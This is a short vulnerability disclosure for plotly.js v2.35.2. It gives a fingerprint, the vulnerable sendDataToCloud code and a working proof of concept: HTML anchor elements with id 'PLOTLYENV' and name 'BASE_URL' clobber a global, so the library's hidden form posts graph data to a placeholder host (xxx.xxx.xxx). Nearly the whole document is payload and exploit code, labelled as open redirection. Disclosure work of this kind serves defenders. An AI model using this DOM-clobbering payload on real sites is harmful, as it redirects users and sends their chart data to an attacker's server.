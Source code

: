 ## plotly.js

### Meta

+ Library: plotly.js
+ Stars: 16.9K
+ Version: v2.35.2
+ Fingerprint: `window.PLOTLYENV  !== undefined`
+ Payload: ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>```
+ Impact: Open Redirection
+ CVE: N/A
+ Status: N/A
+ Security Policy: Email
+ Foundby: TheHulk

### Library

https://github.com/plotly/plotly.js

### Vulnerable Code Snippet

```javascript
plots.sendDataToCloud = function(gd) {
    var baseUrl = (window.PLOTLYENV || {}).BASE_URL || gd._context.plotlyServerURL;
    if(!baseUrl) return;

    gd.emit('plotly_beforeexport');

    var hiddenformDiv = d3.select(gd)
        .append('div')
        .attr('id', 'hiddenform')
        .style('display', 'none');

    var hiddenform = hiddenformDiv
        .append('form')
        .attr({
            action: baseUrl + '/external',
            method: 'post',
            target: '_blank'
        });

    var hiddenformInput = hiddenform
        .append('input')
        .attr({
            type: 'text',
            name: 'data'
        });

    hiddenformInput.node().value = plots.graphJson(gd, false, 'keepdata');
    hiddenform.node().submit();
    hiddenformDiv.remove();

    gd.emit('plotly_afterexport');
    return false;
};
```

## PoC

```html
<!--Library-->
<div id="gd"></div>
<script src="https://cdn.plot.ly/plotly-2.35.2.min.js" charset="utf-8"></script>
<script>
    Plotly.newPlot("gd", /* JSON object */ {
        "data": [{ "y": [1, 2, 3] }],
        "layout": { "width": 600, "height": 400}
    })
    Plotly.Plots.sendDataToCloud(gd);
</script>
<!--Library-->

<!--Payload-->
<a id="PLOTLYENV" href="https://xxx.xxx.xxx/?a="></a>
<a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>
<!--Payload-->
```